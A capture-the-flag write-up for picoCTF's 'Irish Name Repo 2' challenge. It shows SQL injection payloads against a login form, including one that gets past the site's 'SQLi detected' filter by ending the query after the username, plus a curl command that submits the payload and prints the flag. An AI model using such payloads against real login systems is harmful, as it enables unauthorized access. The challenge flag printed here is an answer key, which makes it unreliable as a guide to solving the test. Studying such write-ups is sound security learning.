

# Irish Name Repo 23
Author: dch0017

## Challenge Description
There is a website running at. Do you think you can log us in? Try to see if you can login!

## Accessing Site
We get the same site from part 1 of this challenge: </br>

</br>


## SQL Injection
Straight to SQL injection, we know that was what worked in version 1 of this challenge. So let's go ahead and throw in the same payload we used the first time:

To do this we can use the following payload for both our `name` and `password`: 
```
' or '1=1
```

This would equate to the query:
`SELECT * FROM users WHERE name='' or '1=1' AND password='' or '1=1'`

Since 1 will always equal 1, this should work if there is no input validation.

## ERROR
Now we do get an error! We get ```SQLi detected``` (SQLi being sql injection). So we can't do that query, and we don't know what exactly is being filtered... hmm.

## Commenting
Another method rather than trying to get the `name` and `field` equal to `true`, we can find a valid username and then end our query with a semicolon before the password check. 

If we go to the `support` page of the site, we can see that the admin is just named `admin`. 

## Crafting query
So in theory we want our query to look like this:
```sql
SELECT * FROM users WHERE name='admin';' AND password=''
```

In that query above it will pull everything from a table named `users` where `name=admin` and then the statement ends due to the semicolon.

To craft this we need to pass the following value to our `username` field:
```
admin';
```

and we can leave our password field blank.

## Flag

</br>


## Linux
We can also do this using `curl` but we need to make sure to url-encode our input so that it will be passed correctly.
```console
└─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/64649/login.php --data "username=admin%27%3B&password=&d
ebug=0" -s | grep -o "picoCTF{.*}" --color=none
picoCTF{m0R3_SQL_plz_aee925db}
```
